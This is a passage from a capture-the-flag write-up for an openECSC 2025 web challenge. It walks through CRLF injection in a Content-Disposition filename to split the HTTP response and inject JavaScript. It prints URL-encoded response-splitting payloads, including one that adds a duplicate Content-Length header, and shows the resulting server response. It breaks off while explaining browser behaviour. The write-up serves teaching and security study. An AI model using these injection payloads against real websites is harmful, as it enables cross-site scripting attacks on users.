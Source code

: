 Now, what happens if we inject our arbitrary JavaScript code via response splitting?

```
anything"%0d%0a%0d%0aalert(origin);//
```

Unfortunately, we still get invalid JavaScript syntax:

![](https://github.com/siunam321/CTF-Writeups/blob/main/openECSC-2025/images/Pasted%20image%2020251003183944.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/openECSC-2025/images/Pasted%20image%2020251003183951.png)

Hmm... We now have CRLF injection, maybe we can leverage this to bypass the invalid syntax?

#### Intended: `Transfer-Encoding` Trick in HTTP/1.1

One solution that might appear in your mind is to override the `Content-Length` response header:

```
filename=anything"%0d%0aContent-Length:+13%0d%0a%0d%0aalert(origin)
```

Response:

```http
HTTP/1.1 200 OK
Server: BaseHTTP/0.6 Python/3.13.7
Content-Type: text/html; charset=utf-8
Content-Length: 90
Content-Disposition: attachment; filename="anything"
Content-Length: 13

alert(origin).html"

<h1>Message (UUIDv4: 62539c2f-92bd-48ae-a24f-2bc534c6ed22)</h1><code><pre>foo</pre></code>
```

Unfortunately, it won't work. In both Firefox and Chromium-based browsers, if there's a duplicated `Content-Length` response header, the browser will reject such response:

Firefox:
